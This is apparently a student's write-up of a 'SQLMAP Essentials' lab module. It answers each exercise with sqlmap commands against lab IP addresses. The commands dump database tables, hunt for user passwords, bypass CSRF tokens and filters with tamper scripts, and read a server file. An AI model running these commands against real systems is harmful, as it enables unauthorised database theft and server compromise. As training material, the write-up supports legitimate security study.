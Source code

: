 # SQLMAP Essentials

## Building Attacks

### Running SQLMap in an HTTP Request

What's the contents of table flag2? (Case #2)

What's the contents of table flag3? (Case #3)

What's the contents of table flag4? (Case #4)

### Attack Tuning

What's the contents of table flag5? (Case #5)

`sqlmap -u "http://94.237.62.195:42450/case5.php?id=1" --level 5 --risk 3 --batch --tables --dump`

<figure><img src=".gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag6? (Case #6)

``sqlmap -u "http://94.237.62.195:42450/case6.php?col=id" --prefix '`)' --batch --dump -D testdb -T flag6``

<figure><img src=".gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag7? (Case #7)

* UNION snenanigans

`sqlmap -u "http://94.237.62.195:42450/case7.php?id=1" -v --level 5 --risk 3 --dump`

## Database Enumeration

### DB Enum

`sqlmap -u "http://83.136.250.104:37078/case1.php?id=1" --dump -T flag1 -D testdb`

<figure><img src=".gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

### Advanced DB Enum

**What's the name of the column containing "style" in it's name? (Case #1)**

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --search -C style`

<figure><img src=".gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

**What's the Kimberly user's password? (Case #1)**

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --search -C pass`

<figure><img src=".gitbook/assets/image (263).png" alt=""><figcaption></figcaption></figure>

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --dump -D testdb -T users`

<figure><img src=".gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

## Advanced SQLMap Usage

### Bypassing Web Application Protections

**What's the contents of table flag8? (Case #8)**

<figure><img src=".gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (266).png" alt=""><figcaption><p>obtaining CSRF token called "t0ken"</p></figcaption></figure>

`sqlmap -u "http://83.136.253.251:30281/case8.php" --data="id=1&t0ken=i1wNIQj9yhLrLc36S0yoc0ZV5mybfRaN08Uy7loZj8" --level 5 --risk 3 --csrf-token="t0ken" -v -T flag8 --dump`

<figure><img src=".gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag9? (Case #9)**

<figure><img src=".gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (269).png" alt=""><figcaption><p>obtaining UID</p></figcaption></figure>

`sqlmap -u "http://83.136.253.251:30281/case9.php?id=1&uid=1545767805" --randomize=uid --batch -v 5 -T flag9 --dump`

<figure><img src=".gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag10? (Case #10)**

<figure><img src=".gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag11? (Case #11)**

<figure><img src=".gitbook/assets/image (272).png" alt=""><figcaption><p>Tamper-scripts to bypassing chars by replacing them...</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

### OS Exploitation

<figure><img src=".gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

**Try to use SQLMap to read the file "/var/www/html/flag.txt".**

`sqlmap -u "http://83.136.251.235:51941/?id=1" --file-read "var/www/html/flag.txt"`

<figure><img src=".gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

**Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

<figure><img src=".gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What's the contents of table final\_flag?**

Okay so, burpsuite, playing around with the shopping items and adding to cart registered the post request. Do the old save to a text file.

Add the old ‘-p id’ which we got from the POST request and our ‘common’ between tamper script we do some quick ‘-D’ database enumeration to tell us it’s in the production database and our database management system is MySql and it’s technique T (Time-Based boolean) we get the above flag.

`sqlmap -u "http://94.237.63.93:46078" -p 'id' --tamper=between -T final_flag -D production --dump --dbms=MySql --technique=T`

<figure><img src=".gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

